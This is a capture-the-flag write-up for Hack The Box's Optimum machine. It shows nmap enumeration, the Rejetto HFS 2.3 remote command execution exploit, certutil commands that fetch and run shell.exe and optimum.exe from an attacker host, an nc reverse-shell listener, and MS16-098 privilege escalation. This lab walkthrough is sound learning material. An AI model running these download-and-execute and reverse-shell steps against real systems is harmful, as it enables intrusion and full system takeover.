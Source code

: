 ```yaml
---
title: CTF Writeup - HTB Optimum
date: 2023-11-13
author: kei5uke
description: Writeup for HTB Optimum
tags:
  - windows
  - writeup
---
```


# Optimum

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/optimum]
└─# nmap -sV -sC -T4 -p- 10.129.148.144 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 21:25 EET
Nmap scan report for 10.129.148.144
Host is up (0.039s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
```

# Getting shell

Found interesting exploit.

[Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)](https://www.exploit-db.com/exploits/49125)

I ran the command below and got first shell.

```bash
┌──(root💀kali)-[~/optimum]
└─# python3 49125.py 10.129.148.144 80 "certutil.exe -urlcache -split -f "http://10.10.16.23/shell.exe""
http://10.129.148.144:80/?search=%00{.+exec|certutil.exe%20-urlcache%20-split%20-f%20http%3A//10.10.16.23/shell.exe.}
                                                                                                                              
┌──(root💀kali)-[~/optimum]
└─# python3 49125.py 10.129.148.144 80 "shell.exe"                            
http://10.129.148.144:80/?search=%00{.+exec|shell.exe.}
```

```bash
┌──(root💀kali)-[~/optimum]
└─# rlwrap nc -lvnp 21
listening on [any] 21 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.148.144] 49174
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

# Privilege Escalation

Windows Exploit suggester suggests using this exploit:

```bash
┌──(root💀kali)-[/opt/Windows-Exploit-Suggester]
└─# python windows-exploit-suggester.py -i sysinfo.txt -d 2023-11-13-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
```

[Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098)](https://www.exploit-db.com/exploits/41020)

```bash
C:\Users\kostas\Desktop>certutil.exe -urlcache -split -f "http://10.10.16.23/optimum.exe" 
certutil.exe -urlcache -split -f "http://10.10.16.23/optimum.exe"
```

Installed the binary and got the root shell

![Screenshot 2023-11-13 at 23.17.22.png](Optimum%20a5bef01909654b14ba6fed4ab7784336/Screenshot_2023-11-13_at_23.17.22.png)

# Note

Windows exploit suggester is useful 🙂
